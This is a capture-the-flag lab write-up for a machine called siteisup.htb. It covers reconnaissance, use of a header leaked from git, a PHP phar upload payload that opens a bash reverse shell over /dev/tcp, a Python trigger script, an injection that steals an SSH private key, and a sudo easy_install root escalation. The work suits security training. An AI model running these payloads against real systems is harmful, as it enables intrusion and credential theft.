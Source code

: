 Initial Nmap Scan

```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Exploring Local Git dir

```bash
Git branch -a
Git log main
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

git show 8812785e31c879261050e72e20f298ae8c43b565
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

diff --git a/.htaccess b/.htaccess
index 44ff240..b317ab5 100644
--- a/.htaccess
+++ b/.htaccess
@@ -2,3 +2,4 @@ SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header

```

Found another domain dev.siteisup.htb source code and another juicey information to access the domain 
It only access for developers Using coustom header "Special-Dev: only4dev"

Accessing dev.siteisup.htb

**FootHold**

Exploiting upload vulnerability and gain the shell but there has some fillters using to prevent to upload malicious file. we have only one way to upload a php file to gain code execution which is uploading a injected php code as phar file. Their is an another problem to gain shell the normal php shell command functions are disabled expect "proc_open" we get that info from "phpinfo" page 

Exploit using proc_open funtion

Reference [http://www.navioo.com/php/docs/function.proc-open.php](http://www.navioo.com/php/docs/function.proc-open.php)


Payload 

```php
<?php

$descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("file", "/tmp/error-output.txt", "a")
);
$process = proc_open("cat", $descriptorspec, $pipes);
if (is_resource($process)) {

  fwrite($pipes[0], 'echo "bash -i >& /dev/tcp/ip/port 0>&1 " > /tmp/shell.sh | chmod 777 /tmp/shell.sh | sh /tmp/shell.sh');
   /* fwrite writes to stdin, 'cat' will immediately write the data from stdin
   * to stdout and blocks, when the stdout buffer is full. Then it will not
   * continue reading from stdin and php will block here.
   */
  fclose($pipes[0]);
  while (!feof($pipes[1])) {
      $out .= fgets($pipes[1], 1024);
  }
  fclose($pipes[1]);
  $return_value = proc_close($process);
}
?>
```

My coustom python script for trigger the payload

req.py
```python
import requests
import re

header = {"Special-Dev": "only4dev"}
r = requests.get("http://dev.siteisup.htb/uploads/",headers=header)
md5 = re.findall(r'(?i)(?<![a-z0-9])[a-f0-9]{32}(?![a-z0-9])',r.text)

file_get = requests.get("http://dev.siteisup.htb/uploads/"+md5[1]+"/test.phar",headers=header)
print(file_get.text)

```

Escalating more privileged user

**www-data to user developer**

Home dir of the user developer has a coustom binary called siteisup which belongs with to a python script called siteisup_script.py and the binary has the setuid permission . Just run the binary and inject python system codes

Paylod for getting the developer ssh Key

```python
__import__("os")os.system("cat /home/developer/.ssh/id_rsa > /tmp/key")
```
**Privilege Escalation**

There is a Binary called  easy_install which has the permission running as superuser(Sudo)

Exploit 

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
Reference [GtfoBin](https://gtfobins.github.io/gtfobins/easy_install/)




